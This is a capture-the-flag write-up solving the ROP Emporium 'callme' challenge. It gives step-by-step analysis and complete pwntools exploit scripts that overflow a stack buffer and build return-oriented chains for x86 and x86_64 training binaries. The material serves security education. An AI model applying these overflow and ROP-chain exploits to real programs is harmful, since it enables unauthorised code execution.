ROP Emporium - callme
Basic setup:
- ROPEmporium x86 & x86_64 binaries
- Ubuntu lab machine
- GDB & pwndbg
- pwntools
Link to challenge
https://ropemporium.com/challenge/callme.html
The 32 bit solve
The aim of this challenge is to call 3 functions provided through library imports named callme_one, callme_two and callme_three along with 3 specific parameters for each (0xdeadbeef, 0xcafebabe, 0xd00df00d).

The first step is to run checksec in order to find protections. Like usual, NX in enabled and partial RELRO exists so a ROP chain is required.

Using the rabin2 command we can see the strings with the -z flag as well as the imported functions with the -i flag. Here we can see any interesting information in strings we can use as well as addresses of functions we can use in our exploits.
  
Next we can look at Ghidra and understand better how the functions available may work. A buffer overflow can be determined through the pwnme function input fields. We can also see this new function called usefulFunction which includes calls to the functions we need to call within the ROP chain. This is useful as we can use the addresses of these functions for the ROP.

Through running the cyclic 100 command within pwndbg and then running the binary with our cyclic value, we can use this to find the offset by taking the value from the EIP register.

Using cyclic -l laaa we can find the offset is 44 bytes.

Again by going into pwndbg we can note down the addresses of the callme functions by disassembling usefulFunction.

Next we need to determine the order for our ROP chain. As parameters will be called off the stack as we are using 32 bit architecture, we can simply add the offset followed by the callme function call, parameters and repeating this. However, as we repeatedly call the different callme functions, a new stack frame is created each time and the parameters we write to the stack will be overwritten. Therefore, we need a ROP gadget.

We need to find a rop gadget which pops values off the stack which would have been written by the new stack frame. This is done by using the ROPgadget command. We can see the gadget we need is pop esi; pop edi; pop ebp; ret as it will pop 3 values off the stack which matches the amount of parameters we need to pass to each function.

The order can now be updated placing the gadget before the parameters get put on the stack.

To check we have done this correctly, we can start by trying to call the first function call with our parameters with python2 and using little endian format. As we can see, the program outputs callme_one() called correctly so we know we are on the right path.

Finishing the payload, we can see the flag has been printed. The python script for this will be displayed at the end of the post.
The 64 bit solve
The 64 bit architecture handles arguments for system calls differently to 32 bit so our exploit will look slightly different. Parameters used this time will be 0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d.
64bit: 
As seen before in previous challenges, the 64 bit architecture requires the arguments to be passed in the registers seen above. This means that we need to use a ROP gadget which is pop rdi; pop rsi; pop rdx; ret. This will pop the 3 arguments off the stack and into the correct registers for arg0, arg1 and arg2.

Again we can use the cyclic command to find the offset. We take the first 8 bytes of the RSP value overwritten.

Using the cyclic -l faaaaaaa command we can find the offset is 40 bytes.

We need to find the new 64 bit address of the callme functions. We can do this by dissasembling the usefulFunction again in pwndbg. Provided is also a new function called usefulGadgets which includes the ROP gadget which will pop the 3 arguments off the stack and into the correct registers pop rdi ; pop rsi ; pop rdx ; ret. We can grab the address by disassembling this function or using the command p usefulGadgets.

The order of the ROP chain will have to be slightly different to the 32 bit architecture version. As the callme functions will be calling parameters off the stack, these can be called last after we have placed the parameters into the correct registers. First we need to call our gadget which will pop the 3 following parameters off the stack and into the correct registers. Then finally, we call the callme function and we should get the flag.
Instead of using python2 here manually, we will use the template from previous challenges and create a working python3 script using pwntools to solve the challenge. This is provided below the 32 bit script.
The 32 bit python script
from pwn import *
##### SETUP & RUN #####
#Define the executable
exe = './callme32'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# verbose logging so we can see what is being sent
context.log_level = 'info'
#delete corefiles after crash occurs
context.delete_corefiles = True
# run the elf
io = process()
##### FIND USEFUL ADDRESSES #####
# Locate the functions/strings we need - either do this manually or using pwntools
# Address needed to put parameters in registers
pop = 0x080487f9
callmeone = 0x80484f0
callmetwo = 0x8048550
callmethree = 0x80484e0
param1 = 0xdeadbeef
param2 = 0xcafebabe
param3 = 0xd00df00d
##### FIND CRASH OVERWRITE RETURN ADDRESS OFFSET #####
# We will send a 'cyclic' pattern which overwrites the return address on the stack
payload = cyclic(100)
# Send cyclic pattern to crash it
io.sendlineafter('> ', payload)
# Wait for the process to crash
io.wait()
# Open up the corefile created after crash
core = io.corefile
# Print out the address of EIP at the time of crashing
eip_value = core.eip
eip_offset = cyclic_find(eip_value)
info('located EIP offset at {a}'.format(a=eip_offset))
##### CRAFTING PAYLOAD #####
# fit works below by making it aaa + addr1 + addr2 + addr3 and converts hex to ascii where appropriate
payload = fit({eip_offset: [callmeone, pop, param1, param2, param3, callmetwo, pop, param1, param2, param3, callmethree, pop, param1, param2, param3]})
# alternative way - p32 converts 0x90 to \x90
# payload = b""
# payload += b'A' * eip_offset
# payload += p32(callmeone)
# payload += p32(pop)
# payload += p32(param1)
# payload += p32(param2)
# payload += p32(param3)
# payload += p32(callmetwo)
# payload += p32(pop)
# payload += p32(param1)
# payload += p32(param2)
# payload += p32(param3)
# payload += p32(callmethree)
# payload += p32(pop)
# payload += p32(param1)
# payload += p32(param2)
# payload += p32(param3)
# print(payload)
##### SEND PAYLOAD AND GET FLAG #####
io = process()
io.sendlineafter('>', payload)
io.recvuntil('Thank you!\n')
#Get our flag!
flag = io.recv()
success(flag)
##### END #####
The 64 bit python script
from pwn import *
##### SETUP & RUN #####
#Define the executable
exe = './callme'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# verbose logging so we can see what is being sent
context.log_level = 'info'
#delete corefiles after crash occurs
context.delete_corefiles = True
# run the elf
io = process()
##### FIND USEFUL ADDRESSES #####
# Locate the functions/strings we need - either do this manually or using pwntools
# rop = ROP(elf)
# register_pop_gadget = rop.find_gadget(["pop rdi", "pop rsi", "pop rdx", "ret"])[0]
pop_gadget = 0x000000000040093c
param1 = 0xdeadbeefdeadbeef
param2 = 0xcafebabecafebabe
param3 = 0xd00df00dd00df00d
callmeone = 0x0000000000400720
callmetwo = 0x0000000000400740
callmethree = 0x00000000004006f0
# Print out the target address
info("%#x pop rdi; ret;", pop_gadget)
info("%#x param1", param1)
info("%#x param2", param2)
info("%#x param3", param3)
info("%#x callmeone", callmeone)
info("%#x callmetwo", callmetwo)
info("%#x callmethree", callmethree)
##### FIND CRASH OVERWRITE RETURN ADDRESS OFFSET #####
# We will send a 'cyclic' pattern which overwrites the return address on the stack
payload = cyclic(100)
# Send cyclic pattern to crash it
io.sendlineafter('> ', payload)
# Wait for the process to crash
io.wait()
# Open up the corefile created after crash
core = io.corefile
stack = core.rsp
info("%#x stack", stack)
# Read four bytes from RSP, which will be some of our cyclic data.
# With this snippet of the pattern, we know the exact offset from
# the beginning of our controlled data to the return address.
pattern = core.read(stack, 4)
offset = cyclic_find(pattern)
info("%r pattern (offset: %r)", pattern, offset)
##### CRAFTING PAYLOAD #####
# Note that we have to call pop_rdi gadget here
payload = b""
payload += b'A' * offset
payload += p64(pop_gadget)
payload += p64(param1)
payload += p64(param2)
payload += p64(param3)
payload += p64(callmeone)
payload += p64(pop_gadget)
payload += p64(param1)
payload += p64(param2)
payload += p64(param3)
payload += p64(callmetwo)
payload += p64(pop_gadget)
payload += p64(param1)
payload += p64(param2)
payload += p64(param3)
payload += p64(callmethree)
##### SEND PAYLOAD AND GET FLAG #####
io = process()
io.sendlineafter('> ', payload)
io.recvuntil('Thank you!\n')
#Get our flag!
flag = io.recv()
success(flag)
##### END #####